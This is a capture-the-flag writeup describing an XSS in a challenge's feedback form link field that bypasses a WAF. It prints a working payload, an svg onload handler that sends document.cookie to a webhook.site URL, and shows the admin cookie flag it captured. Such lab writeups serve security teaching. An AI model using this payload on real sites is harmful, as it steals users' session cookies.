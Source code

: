 # Challenge `Give me more than a simple WAF` writeup

- Vulnerability: XSS
- Where: In the feedback form's link field
- Impact: It allows the retrieval of a remote user's (in this case, the admin's) cookies

## Finding the vulnerability / Steps to reproduce

1. The procedure is similar to the one in the `My favourite cookies` challenge, except for the payload used (`<svg/onload=window.location.href='https://webhook.site/<id>?cookie='+document.cookie>` and its URL encoding). Once executed, the web server is able to intercept the admin's cookie (`SSof{A_WAF_was_all_I_needed...}`)